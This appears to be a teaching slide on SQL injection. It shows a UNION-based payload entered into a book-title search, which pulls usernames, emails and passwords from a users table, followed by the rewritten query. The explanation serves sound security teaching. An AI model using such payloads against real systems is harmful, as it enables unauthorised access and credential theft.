

# Example cont.
You can inject a union query to pull from the users table like so:

1984’ UNION SELECT username, email, password FROM users --

Which results in the following query:

SELECT author, title, publisher FROM books WHERE title = ‘1984’ UNION SELECT username, email, password FROM users --’